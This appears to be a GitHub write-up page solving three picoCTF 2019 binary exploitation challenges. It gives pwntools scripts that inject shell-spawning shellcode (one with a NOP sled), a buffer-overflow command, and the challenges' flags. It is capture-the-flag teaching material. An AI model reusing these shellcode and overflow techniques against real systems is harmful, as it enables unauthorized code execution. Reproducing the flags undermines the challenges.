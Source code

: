 # [PICO CTF (2019)](https://github.com/Ordered-Chaos/Pwnfolio#main)<a name="picoctf19"></a>

***

| Problem | Category | Points | Problem | Category | Points |
| ------- | -------- | ------ | ------- | -------- | ------ | 
| [Handy Shellcode](#handyshellcode) | Binary Exploitation | 50 | [Overflow 0](#overflow0) | Binary Exploitation | 100 |
| [Slippery Shellcode](#slipperyshellcode) | Binary Exploitation | 200 | Overflow 1 | Binary Exploitation | 150 |

***

## HANDY SHELLCODE <a name="handyshellcode"></a>

> ### Problem 
>> This program executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? 
>> You can find the program in /problems/handy-shellcode_2_6ad1f834bdcf9fcfb41200ca8d0f55a6 on the shell server. 
>> [(Source)](https://github.com/Ordered-Chaos/Pwnfolio/blob/master/Pico_CTF(2019)/Sources/handshellcodesource.md#handyshellsource)
>
> ### Solution
>> The solution here is pretty straightforward. All you need to do is supply the program with shellcode
>> and it will execute it. A simple pwntools script using `shellcraft.sh()` as the payload can get this done.

~~~python
#!/usr/bin/env python

from pwn import *

context.clear(os='linux', arch='i386')
context.log_level = 'info'

s = ssh(host='2019shell1.picoctf.com', user='User', password='Pa$$w0rd')

io = s.process('vuln',cwd='/problems/handy-shellcode_2_6ad1f834bdcf9fcfb41200ca8d0f55a6')

shellcode = asm(shellcraft.sh())

payload = shellcode

print io.recv()
io.sendline(payload)

print io.recv()
io.sendline('cat flag.txt')

print io.recv()

~~~

**FLAG:** *picoCTF{h4ndY_d4ndY_sh311c0d3_707f1a87}*

[Return to Top](#picoctf19)
***

## SLIPPERY SHELLCODE <a name="slipperyshellcode"></a>

> ### Problem 
>> This program is a little bit more tricky. Can you spawn a shell and use that to read the flag.txt? 
>> You can find the program in /problems/slippery-shellcode_6_7cf1605ec6dfefad68200ceb12dd67a1 on the shell server.
>> [(Source)](https://github.com/Ordered-Chaos/Pwnfolio/blob/master/Pico_CTF(2019)/Sources/slipperyshellcode.md#slipperyshellsource1)
>
> ### Solution
>> In this challenge we again need to supply the program with shellcode using `shellcraft.sh()`. The source code
>> reveals that this time, the program will begin execution of the shellcode from a random location within a 256 
>> byte range. To make sure that we execute our code, all that needs to be done is to supply an 'x\90' NOP sled
>> that's 256 bytes long directly preceding the shellcode. This can be done with the following pwntools script.

~~~python
#!/usr/bin/env python

from pwn import *

context.clear(os='linux', arch='i386')
context.log_level = 'info'

s = ssh(host='2019shell1.picoctf.com', user='User', password='Pa$$w0rd')

io = s.process('vuln',cwd='/problems/slippery-shellcode_6_7cf1605ec6dfefad68200ceb12dd67a1')

padding = '\x90' * 256
shellcode = asm(shellcraft.sh())

payload = padding + shellcode

print io.recv()
io.sendline(payload)

print io.recv()
io.sendline('cat flag.txt')

print io.recv()
~~~

**FLAG:** *picoCTF{sl1pp3ry_sh311c0d3_5a0fefb6}*

[Return to Top](#picoctf19)
***
## OVERFLOW 0<a name="overflow0"></a>

> ### Problem
>> This should be easy. Overflow the correct buffer in this program and get a flag. Its also found in 
>> /problems/overflow-0_1_54d12127b2833f7eab9758b43e88d3b7 on the shell server. [(Source)](https://github.com/Ordered-Chaos/Pwnfolio/blob/master/Pico_CTF(2019)/Sources/overflow0source.md#overflow0source1)

> ##  Solution
>> After looking at the program, you can tell that it checks to see if `argv[]` is greater or less than the buffer. If it is, then it prints the flag file.
>> So all we have to do is call `./vuln` with more than 64 arguments.
~~~bash
kali@kali:~/ctf/pico/overflow0$ ssh User@2019shell1.picoctf.com 'cd /problems/
overflow-0_1_54d12127b2833f7eab9758b43e88d3b7; ./vuln AAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
~~~

**FLAG:** *picoCTF{3asY_P3a5yb197d4e2}*

[Return to Top](#picoctf19)
***
